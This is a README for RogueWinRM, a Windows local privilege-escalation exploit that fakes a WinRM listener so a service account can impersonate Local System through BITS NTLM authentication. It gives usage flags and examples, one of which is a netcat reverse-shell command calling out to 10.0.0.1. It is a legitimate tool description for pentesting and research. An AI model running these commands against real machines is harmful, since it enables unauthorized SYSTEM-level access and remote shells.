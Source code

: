 # RogueWinRM

RogueWinRM is a local privilege escalation exploit that allows to escalate from a Service account (with SeImpersonatePrivilege) to Local System account if WinRM service is not running (**default on Win10 but NOT on Windows Server 2019**).

Briefly, it will listen for incoming connection on port 5985 faking a real WinRM service.<br>
It's just a minimal webserver that will try to negotiate an NTLM authentication with any service that are trying to connect on that port.<br>
Then the BITS service (running as Local System) is triggered and it will try to authenticate to our rogue listener. Once authenticated to our rogue listener, we are able to impersonate the Local System user spawning an arbitrary process with those privileges.

You can find a full technical description of this vulnerability at this link --> https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/

# Usage

```
RogueWinRM

Mandatory args:
-p <program>: program to launch

Optional args:
-a <argument>: command line argument to pass to program (default NULL)
-l <port>: listening port (default 5985 WinRM)
-d : Enable Debugging output
```

# Examples

![RogueWinRM](https://decoderblogblog.files.wordpress.com/2019/12/exploit-1.png)

Running an interactive cmd:

```
RogueWinRM.exe -p C:\windows\system32\cmd.exe
```

Running netcat reverse shell:

```
RogueWinRM.exe -p C:\windows\temp\nc64.exe -a "10.0.0.1 3001 -e cmd"
```

# Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)
* Roberto (0xea31)
